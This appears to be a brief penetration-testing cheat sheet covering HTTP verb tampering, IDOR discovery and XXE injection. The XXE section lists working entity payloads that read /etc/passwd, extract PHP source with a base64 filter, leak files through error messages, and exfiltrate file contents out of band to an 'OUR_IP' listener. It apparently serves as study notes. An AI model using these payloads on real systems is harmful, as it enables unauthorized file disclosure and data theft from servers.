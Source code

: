# HTTP Verb Tampering

## HTTP Method
- HEAD
- PUT
- DELETE
- OPTIONS
- PATCH

### Command	Description
| Command           | Description                       |
|-------------------|-----------------------------------|
| `-X OPTIONS`      | Set HTTP Method with Curl        |

# IDOR

## Identify IDORS
- In URL parameters & APIs
- In AJAX Calls
- By understanding reference hashing/encoding
- By comparing user roles

### Command	Description
| Command           | Description                       |
|-------------------|-----------------------------------|
| `md5sum`          | MD5 hash a string                 |
| `base64`          | Base64 encode a string            |

# XXE

## Code	Description
- `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`: Define External Entity to a URL
- `<!ENTITY xxe SYSTEM "file:///etc/passwd">`: Define External Entity to a file path
- `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">`: Read PHP source code with base64 encode filter
- `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`: Reading a file through a PHP error
- `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`: Reading a file OOB exfiltration
